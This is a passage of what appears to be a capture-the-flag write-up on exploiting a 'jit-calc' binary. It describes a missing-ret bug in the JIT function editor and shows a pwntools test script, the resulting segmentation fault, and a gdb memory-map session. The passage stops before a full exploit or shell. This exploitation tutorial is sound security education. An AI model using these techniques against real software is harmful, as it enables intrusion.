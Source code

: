 ## Exploitation
So the first question should be - is it possible to get a shell using just two registers and movabs instructions? Maybe, but I have no idea how. Therefore I've picked other path. I knew I need to find a way to use other instructions.

### Bypassing ret
Before I've mentioned that "When a user decides she/he wan't to leave function editor there is an extra ret instruction embeded before the function quites". This is no entirely true.

```c
void write_code(size_t idx, char *calc_exe_mem) {
    [...]
    while (true) {
        if (func_ptr > func_start + 0x3d9) return;
        [...]
    }
```

The program forgets to inject ret instruction if the user run's out of space (she/he provides instructions that take 0x3d9 (985) or more bytes in total). The space allocated for each function is equal to 1000. This means that unfortunetely we won't be able to overflow to other function as we can create at maximum 984 + 10 = 994 bytes long function.
Let's check if our assumptions are correct. I'm using pwntools script to speed up exploitation and testing (you can always check full exploit [here](exp.py) to get full functions implementation)

```python
p = proccess('./jit-calc')

read_welcome_msg()

start_writing_code()
for i in range(9):
    write_addition(1)
for i in range(96):
    write_constant_value(1, 0x4142434445464748)

run_code()
```
 
Let's run it:

```bash
$ python3 exp.py
[+] Starting local process './jit-calc': pid 4252
[*] Process './jit-calc' stopped with exit code -11 (SIGSEGV) (pid 4252)
```

We got SIGSEV, but we should be happy about that. This means that's something unexpected is happening. Something that developer forgot about! Let's breakpoint at callCode function to see how's the memory layout look like:

```gdb
$python3 exp.py local debug
gef➤  b callCode
gef➤  c
Continuing.
Breakpoint 1, 0x0000000000400a94 in callCode ()
gef➤  vmmap // to find calc_exe_mem
Start              End                Offset             Perm Path
[...]
0x00007f93d547c000 0x00007f93d547e000 0x00000000001eb000 rw- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007f93d547e000 0x00007f93d5482000 0x0000000000000000 rw- 
0x00007f93d5482000 0x00007f93d54a9000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.27.so
0x00007f93d5689000 0x00007f93d568b000 0x0000000000000000 rw- 
0x00007f93d56a0000 0x00007f93d56a9000 0x0000000000000000 r-x // <-- here
0x00007f93d56a9000 0x00007f93d56aa000 0x0000000000027000 r-- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007f93d56aa000 0x00007f93d56ab000 0x0000000000028000 rw- /lib/x86_64-linux-gnu/ld-2.27.so
```